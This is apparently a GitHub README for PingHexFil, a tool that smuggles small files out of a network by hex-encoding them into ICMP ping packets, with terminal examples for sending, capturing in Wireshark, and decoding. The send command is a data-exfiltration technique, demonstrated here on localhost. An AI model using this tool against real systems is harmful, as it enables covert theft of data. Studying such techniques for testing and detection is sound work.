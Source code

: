 # PingHexFil
Exfiltration of small files using ICMP
## Data Exiltration using ICMP
*NOTE* This ONLY works with files smaller than 60kB. This is due to the packet length restrictions and updates will come to break up files into 60kB chunks in the near future.
## Usage
The following is done with the example file, `examples/example1.txt`
### Step 1: Send the Bytes via ICMP
```
root@demon:~/pinghexfil# ls
decoder.py  examples  images  payloads  pinghexfil.py  README.md
root@demon:~/pinghexfil# cat examples/example1.txt 
This is a test file.
OK.
root@demon:~/pinghexfil# ./pinghexfil.py 127.0.0.1 examples/example1.txt 
[+] Opening file: examples/example1.txt
[+] Sending data as: 54686973206973206120746573742066696c652e0a4f4b2e0a
.
Sent 1 packets.
Exiting.
root@demon:~/pinghexfil# 
```
### Step 2: Gather Bytes via Wireshark
Simply right click on the data and choose **Select->as a Hex Stream** and paste the output into a file, as I did in the file `payloads/example1.txt`

![Wireshark Screenshot](images/wireshark.png)

### Step 3: Decode the Bytes
```
root@demon:~/pinghexfil# ./decoder.py payloads/example1.txt 
[+] Opening file: payloads/example1.txt
[+] file data: 54686973206973206120746573742066696c652e0a4f4b2e0a

This is a test file.
OK.

root@demon:~/pinghexfil# 
```
